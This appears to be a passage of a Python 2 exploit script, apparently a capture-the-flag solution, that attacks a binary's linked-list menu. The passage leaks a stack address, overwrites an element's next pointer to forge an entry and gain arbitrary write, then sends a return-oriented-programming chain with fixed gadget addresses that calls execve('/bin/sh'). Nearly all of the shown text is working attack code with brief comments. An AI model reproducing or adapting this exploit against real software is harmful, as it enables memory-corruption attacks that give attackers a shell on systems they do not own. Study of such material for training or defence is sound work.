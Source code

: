 ```python

stack1 = output.split("Next    : ")[1].split("\n")[0]
stack1 = int(stack1, 16) # this is the pointer stored in the element 0 of list pointing to element 1

main = stack1 + 0x910f
binsh = stack1 - 0xB

print "stack address: " + hex(stack1)
print "return to main at: " + hex(main)
print "our buffer will go at: " + hex(main-100+16-4)
print "/bin/sh string: " + hex(binsh)

# here we edit the 6th entry in the list to tamper the 7th next element pointer
#buffer
buffer = ""
buffer += "A"*20         # junk
buffer += p32(main-100+16-4)        # pointer to next entry
buffer += chr(7)         # element id (we modify the second by doing so we forge a 3rd non registered element)
buffer += "A"*16         # the list body of the next element we forge
buffer += "\n"

r.send("2\n")
print r.recv()
r.send("6\n")
print r.recv()
r.send(buffer)
print r.recvuntil("|\n+--------------------+\n")

# now that we have tampered the pointer from 7th element to 8th element
# we can use the edit function as an arbitrary write what where and control RIP


read_flag = p32(0x080ea001)

buffer = ""
buffer += "A"*19
#buffer += p32(0x42424242)  # here we control rip

# sys execve("/bin/sh", 0, 0)
buffer += p32(0x8054f10)    # xor eax eax ;;
buffer += p32(0x8096372)    # add eax 0xb ; pop edi ;;
buffer += "JUNK"            # pops into edi
buffer += p32(0x806f511)    # pop ecx ; pop ebx ;;
buffer += p32(0xffffffff)   # ecx, needs to be 0
buffer += p32(binsh)        # ptr "/bin/sh"
buffer += p32(0x806f4ea)    # pop edx
buffer += p32(0xffffffff)   # edx, needs to be 0
buffer += p32(0x80daf8c)    # inc ecx ;;
buffer += p32(0x805dd27)    # inc edx ;;
buffer += p32(0x806fbc0)    # int 0x80 ;;

buffer += "\n"

r.send("2\n")
print r.recv()
r.send("8\n")
print r.recv()
r.send(buffer)
print r.recvuntil("|\n+--------------------+\n")


```